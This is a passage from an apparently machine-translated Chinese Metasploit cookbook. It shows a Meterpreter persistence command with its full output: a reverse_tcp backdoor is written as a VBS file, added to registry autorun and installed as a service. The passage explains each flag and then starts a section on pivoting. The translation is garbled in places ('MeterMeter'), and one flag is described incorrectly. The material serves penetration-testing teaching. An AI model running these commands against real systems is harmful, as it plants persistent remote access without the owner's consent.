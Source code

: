 正如您所见，与 Metsvc 相比，它有一些额外的选项。让我们执行脚本并根据需要传递不同的参数。

```
meterpreter > run persistence -A -S -U -i 60 -p 4321 -r 192.168.56.101
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/DARKLORD-PC_20111227.0307/DARKLORD-PC_20111227.0307.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4321
[*] Persistent agent script is 610795 bytes long
[+] Persistent Script written to C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[*] Starting connection handler at port 4321 for windows/meterpreter/reverse_tcp
[+] Multi/Handler started!
[*] Executing script C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[+] Agent executed with PID 5712
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[*] Installing as service..
[*] Creating service cpvPbOfXj 
```

## 它是如何工作的。。。

请注意随脚本传递的不同参数。 `-A`参数自动启动攻击机器上的侦听器。 `-S`操作员将后门设置为在每次 Windows 启动时加载。 `-U`操作员在用户每次登录系统时执行后门。 `-i`操作员设置后门尝试连接回代理处理程序的间隔。 `-p`为目标机器的端口号， `-r`为目标机器的 IP 地址。脚本执行的输出还包含一些有用的信息。该脚本已创建一个用于清理的资源文件，以便您可以在使用后删除后门。脚本已在目标计算机上的 `temp`文件夹中创建了一个 vbs 文件。它还创建了注册表项，以便在 Windows 每次启动时自动加载后门。

我们提供了一个 60 秒的间隔，让后门连接回代理处理程序。成功执行脚本后，您将看到目标机器上每隔 60 秒自动打开一个 MeterMeter 会话。

这个快速演示说明了如何与目标机器建立持久连接。您可以使用这两个脚本尝试不同的场景，并分析其工作情况。在下一个食谱中，我们将关注另一个有趣的概念，称为旋转。

# 与MeterMeter一起旋转

到目前为止，我们已经介绍了大多数主要的 MeterMeter 命令和脚本。您一定已经注意到，在开发后阶段，MeterMeter 的功能是多么强大。在本食谱中，我们将讨论一个最酷、也是我最喜欢的概念，叫做旋转。让我们首先了解旋转的含义，为什么需要旋转，最后了解 Metasploit 如何对旋转有用。

## 准备好了吗

在开始使用配方之前，让我们先详细了解旋转。数据透视是指渗透测试人员使用的方法，该方法使用受害系统攻击同一网络上的其他系统。这是一种多层攻击，在这种攻击中，我们甚至可以访问仅可供本地内部使用的网络区域，如内部网。考虑下面图表中所示的场景。

![Getting ready](img/7423_06_02.jpg)
